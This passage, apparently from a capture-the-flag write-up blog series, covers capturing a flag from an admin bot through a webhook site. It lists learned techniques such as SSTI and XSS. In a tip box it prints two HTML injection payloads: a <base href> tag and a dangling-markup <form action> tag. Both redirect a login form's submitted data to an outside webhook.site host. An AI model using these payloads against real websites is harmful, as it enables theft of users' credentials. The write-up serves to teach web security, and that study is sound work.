 Now we provide the URL to the admin bot and go to our webhook site and there we get the flag!

![getting the flag!](/assets/img/Brokenlogin3.png){: .shadow  }

And then URL decoding it to get the flag!

> Instead of providing full form as we did, we could instead inject `<base href='http://webhook.site/your_webhook_id'>`, this is possible here because the path in the action attribute is not the full path with the website, this <base> tag tells the form that for any form data you send the base url or the host will be this url of the webhook site, another way is to do Dangling Markup Attack, this can be done by injecting `<form action='http://webhook.site/your_webhook_id' x="`, what this does is that the open quote of the fake x attribute will consider anything that comes after it as a string until the next quote, effectively eating up the form tag and its action attribute that is provided by the actual form and the form!!, read more about this attack from this [HackTricks](https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection) article
{: .prompt-info }

#### Learned: `SSTI`,`HTML Injection`,`Dangling Markup Attack`, `XSS`
---
**To be continued in part 3 for the last challange!**
